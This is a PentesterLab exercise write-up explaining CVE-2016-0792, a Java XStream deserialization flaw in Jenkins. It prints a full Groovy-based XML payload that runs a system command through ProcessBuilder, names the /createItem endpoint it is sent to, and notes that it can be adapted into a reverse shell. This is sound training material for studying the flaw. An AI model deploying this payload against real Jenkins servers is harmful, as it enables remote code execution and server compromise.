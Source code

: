 # Pentesterlab Serialize Badge/CVE-2016-0792

> Saikat Karmakar | Sept 7 : 2021

---

## Introduction

This course details the exploitation of a serialization issue in Jenkins. When a Java application unserialises arbitrary data, it is possible for an attacker to trigger unexpected behaviours in the application and even gain command execution.

The details of the exploitation of this exercise have initially been published on Contrast Security blog: https://www.contrastsecurity.com/security-influencers/serialization-must-die-act-2-xstream.

If you're using the ISO, make sure you have Internet access during the boot as Jenkins needs to download some libraries during its startup

## The issue

This issue was discovered in Jenkins and allow an attacker to gain remote code execution on the server hosting Jenkins.

Jenkins supports serialised objects based on XStream. Previously, it was possible to get code execution using `java.beans.EventHandlerbut` it's no longer the case.

Thankfully, Jenkins embeds few third party libraries that include Gadget that can provide an attacker with remote code execution. The payload illustrated in this exercise relies on Groovy:

```xml
<map>
  <entry>
    <groovy.util.Expando>
      <expandoProperties>
        <entry>
          <string>hashCode</string>
          <org.codehaus.groovy.runtime.MethodClosure>
            <delegate class="groovy.util.Expando"/>
            <owner class="java.lang.ProcessBuilder">
              <command>
                <string>open</string>
                <string>/Applications/Calculator.app</string>
              </command>
            </owner>
            <method>start</method>
          </org.codehaus.groovy.runtime.MethodClosure>
        </entry>
      </expandoProperties>
    </groovy.util.Expando>
    <int>1</int>
  </entry>
</map>
```

By sending this payload, Jenkins will unserialize the data provided and will allow an attacker to gain code execution.

This payload can (for example) be sent to the following URL:

```
POST /createItem?name=test HTTP/1.0
[...]
```
By modifying the payload, you will be able to get a reverse-shell (for the ISO) or to run the scoring binary for the online version.


## Conclusion

This demonstrates how you can get code execution if an application unserialises arbitrary data. Here the exploitation relies on two problems: Jenkins accepts serialized object and Jenkins embeds Groovy. I hope you enjoyed learning with PentesterLab.